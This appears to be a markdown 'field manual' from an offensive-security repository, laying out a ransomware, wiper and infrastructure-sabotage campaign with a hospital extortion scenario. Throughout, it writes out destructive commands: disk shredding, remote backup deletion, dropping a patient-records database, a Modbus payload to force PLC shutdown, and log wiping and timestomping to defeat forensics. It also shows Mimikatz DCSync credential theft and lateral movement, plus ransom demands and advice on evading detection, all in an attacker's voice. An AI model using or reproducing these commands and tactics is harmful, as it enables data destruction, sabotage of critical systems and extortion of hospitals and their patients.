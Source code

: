 # Field manual: Operation Nutcracker (2025 Edition)

*When you want to leave more than just shells behind – leave chaos.*

## Operational objectives

* Sabotage – Render systems unusable for geopolitical or competitive advantage
* Extortion – Maximize payout pressure through multi-vector attacks
* Plausible Deniability – Burn the house down without leaving fingerprints

## Attack arsenal

### AI-Optimized ransomware (LockBit 5.0 Protocol)

Adaptive encryption engine:

```python
# Pseudocode for ML-driven target selection
if file_extension in ('.sql','.vmx','.backup'):
    encrypt(file)  # Prioritizes DBs/VMs/backups
else:
    bypass(file)   # Skips non-critical files to accelerate encryption
```

Triple extortion playbook:

* Encrypt primary storage
* [exfiltrate](exfiltration.md) to private Tor-based leak site
* Threaten volumetric DDoS during negotiations

### Hybrid Wiper-Ransomware (Blackout Worm variants)

Execution Flow:

```bash
# Phase 1: Backup Destruction (Linux)
shred -n 10 -u /dev/sdX  # DoD 7-pass equivalent

# Phase 2: Ransomware Deployment (Windows)
.\MedusaLocker.exe --extension .chernobyl --note README.html
```

Use `ionice -c 3` to reduce disk I/O visibility during shredding.

### Critical infrastructure sabotage

SCADA/ICS killswitch:

```python
# Modbus TCP payload to override PLC registers
payload = b'\x00\x01\x00\x00\x00\x06\x01\x06\x00\x64\xFF\xFF'  # Force emergency shutdown
```

Database annihilation:

```sql
    DROP DATABASE patient_records WITH NORECOVERY;  # SQL Server persistent damage
```

### Forensic countermeasures

Log Obliteration Kit:

```powershell
# Windows
Clear-EventLog -LogName Security,Application,System
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger -Name Start -Value 0

# Linux
find /var/log -type f -exec shred -n 3 {} \;
```

Timestomping:

```bash
touch -r /etc/passwd malicious_file  # Inherits timestamps from legitimate file
```

## Red team exercise: "Hospital Zero" (2025)

**Phase 1: Infiltration**

* Delivery: Malicious ISO masquerading as "Patient_Scan_2987.iso"
* Exploit: CLFS zero-day (CVE-2025-29824) → NT AUTHORITY\SYSTEM

**Phase 2: Domain dominance**

```powershell
# Credential Harvesting
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.hospital /user:Administrator"'

# Lateral Movement
Enter-PSSession -ComputerName DC01 -Credential $creds -Authentication Negotiate
```

**Phase 3: Surgical strikes**

```bash
# Backup Neutralization
ssh backupadmin@veeam01 "sudo rm -rf /backups/archive/* --no-preserve-root"

# Ransomware Deployment
.\locker.exe --config config.json --timeout 900  # 15-minute encryption sprint
```

***Phase 4: Extortion***

Negotiation channels:

* Primary: Tox Protocol (qTox client)
* Fallback: ProtonMail dead-drop

Payment demand:

* 500 XMR (~$5M) for decryptor
* +200 XMR to suppress 42GB patient data leak

## Blue Team counter-tactics (For OpSec testing)

| Tactic	                | Red Team Evasion Method                         |
|------------------------|-------------------------------------------------|
| Air-gapped backups	    | Veeam credential theft → Remote backup deletion |
| EDR behavioral alerts	 | Process hollowing into `svchost.exe`            |
| Zero Trust policies	   | ADCS relay attacks to forge Kerberos tickets    |

## Lessons from the field

*"In 2025, the most effective attacks look like accidents until it's too late. Your ransomware should be the 
second-worst thing in the victim's timeline."*

## Operational checklist

- ✅ Test wiper modules in QEMU sandboxes before deployment
- ✅ Pre-negotiate XMR escrow channels with dark web brokers
- ✅ Embed false [flags](flag.md) 